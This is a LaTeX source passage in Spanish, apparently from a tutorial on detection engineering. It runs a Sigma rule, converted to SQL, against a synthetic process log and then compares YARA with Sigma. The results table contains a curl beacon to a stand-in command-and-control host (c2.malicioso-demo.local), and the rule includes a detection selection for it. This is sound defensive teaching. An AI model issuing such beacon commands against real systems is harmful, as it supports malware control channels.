 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Ejecución real contra un log}

Para que no sea solo teoría, cargamos un log sintético de creación de procesos en
una base SQLite y ejecutamos la consulta que Sigma ha generado. El log mezcla
actividad normal con dos eventos maliciosos.

\begin{terminal}
\$ sqlite3 eventos.db < eventos.sql\\
\$ CONSULTA=\$(sigma convert -t sqlite proceso\_sospechoso.yml \textbar\ sed 's/<TABLE\_NAME>/eventos/')\\
\$ sqlite3 -header -column eventos.db "\$CONSULTA"
\end{terminal}

El resultado detecta exactamente los dos eventos maliciosos y \textbf{descarta el
ruido} (bash, curl a la web de la universidad, python):

\begin{center}
\small
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{UtcTime} & \textbf{Image} & \textbf{CommandLine} \\
\midrule
2026-09-22 08:02:11 & .../muestra\_demo & ./muestra\_demo \\
2026-09-22 08:02:30 & /usr/bin/curl & curl http://c2.malicioso-demo.local/beacon \\
\bottomrule
\end{tabular}
\end{center}

El primer evento coincide por el \emph{nombre de la imagen}
(\texttt{selection\_imagen}); el segundo, por la \emph{línea de comandos}
(\texttt{selection\_c2}). Los tres eventos benignos no aparecen.

\section{YARA y Sigma juntos}

Las dos herramientas son complementarias, no rivales. Cubren capas distintas de
la detección:

\begin{center}
\begin{tabular}{@{}p{3.2cm}p{5.2cm}p{5.2cm}@{}}
\toprule
 & \textbf{YARA} & \textbf{Sigma} \\
\midrule
Qué inspecciona & Ficheros y memoria (bytes) & Logs y eventos \\
Dónde actúa & Endpoint, análisis forense, sandbox & SIEM, EDR, plataforma de logs \\
Formato & Reglas \texttt{.yar} propias & YAML genérico traducible \\
Pregunta que responde & ¿Este artefacto contiene el patrón? & ¿Ha ocurrido este evento? \\
\bottomrule
\end{tabular}
\end{center}
\end{document}
